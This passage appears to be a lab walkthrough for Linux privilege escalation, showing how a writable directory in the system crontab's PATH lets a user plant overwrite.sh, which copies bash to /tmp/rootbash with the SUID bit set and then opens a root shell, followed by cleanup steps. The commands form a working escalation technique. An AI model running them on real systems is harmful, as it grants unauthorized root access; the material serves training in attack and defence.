 View the contents of the system-wide crontab:

`cat /etc/crontab`

Note that the PATH variable starts with¬†**/home/user** which is our user's home directory.

Create a file called **overwrite.sh** in your home directory with the following contents:

#!/bin/bash

cp /bin/bash /tmp/rootbash

chmod +xs /tmp/rootbash

Make sure that the file is executable:

`chmod +x /home/user/overwrite.sh`

Wait for the cron job to run (should not take longer than a minute).¬†Run the /tmp/rootbash command with -p to gain a shell running with root privileges:

`/tmp/rootbash -p`

**Remember to remove the modified code, remove the /tmp/rootbash executable and exit out of the elevated shell before continuing as you will create this file again later in the room!**

`rm /tmp/rootbash`

`exit`